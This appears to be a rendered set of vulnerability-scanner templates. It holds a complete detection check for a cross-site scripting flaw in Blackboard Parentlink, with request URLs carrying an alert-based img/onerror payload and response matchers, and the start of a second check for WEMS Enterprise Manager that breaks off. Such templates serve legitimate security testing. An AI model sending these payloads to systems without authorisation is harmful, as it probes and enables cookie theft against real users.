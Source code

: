 ## Description

- Blackboard contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - blackboard,parentlink,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/main/blank?message_success=%3Cimg%20src%3Dc%20onerror%3Dalert(8675309)%3E
- {{BaseURL}}/main/blank?message_error=%3Cimg%20src%3Dc%20onerror%3Dalert(8675309)%3E

### Matchers

**Type - word**

- words
  1. \<img src=c onerror=alert(8675309)>
- part - body

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WEMS Enterprise Manager - Cross-Site Scripting

## Description

- WEMS Enterprise Manager contains a cross-site scripting vulnerability via the /guest/users/forgotten endpoint and the email parameter, which allows a remote attacker to inject arbitrary JavaScript into the response return by the server.
- severity - high
- tags - xss,packetstorm

## Requests

- Method - GET
